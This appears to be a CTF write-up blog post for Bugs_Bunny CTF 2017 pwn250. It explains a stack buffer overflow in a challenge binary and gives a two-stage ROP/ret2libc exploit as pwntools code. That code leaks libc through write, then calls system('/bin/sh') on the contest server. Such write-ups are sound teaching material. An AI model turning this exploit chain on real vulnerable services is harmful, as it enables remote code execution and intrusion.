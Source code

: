 ```yaml
---
layout: post
title:  "Bugs_Bunny CTF 2017 - pwn250"
date:   2017-07-31 5:00
categories: CTF
tags: [BugsBunnyCTF2017]
categories: [Pwn]
author: jbz
---
```



This was a pretty standard, stack-based overflow. You can download the file [here](https://github.com/jbzteam/CTF/raw/master/BugsBunnyCTF2017/pwn250/pwn250).

Through `file` and `checksec` we see that it's a 64-bit ELF non-stripped binary, dynamically linked, compiled with only the `NX` mitigation:
```bash
 $ file ./pwn250 
./pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
 $ checksec ./pwn250 
[*] './pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary with IDA, we see from the pseudocode that it's a quite simple binary:
```c
int main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 13);
  return 0;
}
ssize_t here()
{
  char buf[128];

  return read(0, buf, 256);
}
```

The vulnerability is clear: there is a `read` call that reads 256 bytes from standard input and writes them in a variable that can contains 128 bytes.

There is NX so we cannot inject and execute shellcode directly. Our strategy then is to create a small ROP chain to call `system` and execute a shell.

First we need to gather the address of `system` from `libc`, and find an address that points to `/bin/sh`. Since the binary is not PIE, we can use one of the functions imported from libc to leak their address. Our target is `read`.

In order to do this we can use the `write` to print the address of `read`. The organizers were kind enough to leave a function called `foryou` with a great gadget:
```asm
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

We can use this gadget to prepare the registers before the call to `write`. Our payload/ROP chain to leak the address of `read` looks like this:
```python
payload = ""
payload += "A" * 128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
```

After using the gadget to populate the registers, we call `write` and when it returns we go back to the function `here` where we can send our second payload to get the shell.

Once we get the address of `read`, we can calculate the base address for `libc` (which was provided), and consequently the address of `system` and of the string `/bin/sh` in the binary.

Our second payload looks like this:
```python
payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)

```

This second payload first pops the address of `/bin/sh` into `rdi` and then executes `system`.

The full exploit code is below. Sorry guys, I forgot to save the flag :P
```python
from pwn import *

local = 0
if local:
    p = process("./pwn250")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("54.153.19.139", 5255)
    libc = ELF("./libc.so")

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi - standard output
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
p.sendline(payload)

leak_addr = u64(p.recv(8))
libc_base_addr = leak_addr - libc.symbols['read']
system_address = libc_base_addr + libc.symbols['system']
sh_address = libc_base_addr + next(libc.search("/bin/sh\x00"))
log.info("libc_base_addr @ {:08x}".format(libc_base_addr))

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)
p.sendline(payload)

p.sendline("uname -a && id")
p.interactive()

```